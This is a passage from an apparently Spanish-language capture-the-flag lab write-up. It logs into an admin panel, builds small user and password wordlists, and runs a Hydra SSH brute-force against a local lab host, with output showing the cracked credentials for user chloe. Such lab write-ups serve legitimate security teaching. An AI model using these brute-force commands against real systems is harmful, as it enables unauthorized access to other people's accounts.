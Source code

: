 Por lo que vamos a probar a `loguearnos` con el usuario `admin`, si lo hacemos veremos que nos carga el `panel` de `administracion` de forma correcta.

<figure><img src="../../.gitbook/assets/image (375).png" alt=""><figcaption></figcaption></figure>

Pero no veremos nada interesante, por lo que vamos a probar a crearnos un diccionario de usuarios y passwords a ver si de las que estan publicas puede haber alguna que sea valida a nivel de sistema.

> users.txt

```
admin
cliente
chloe
```

> pass.txt

```
CyberSecure123
Password123
chloe123
```

## Escalate user chloe

### Hydra

```shell
hydra -L users.txt -P pass.txt ssh://<IP>/ -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-07 13:48:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: chloe   password: chloe123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-07 13:48:13
```
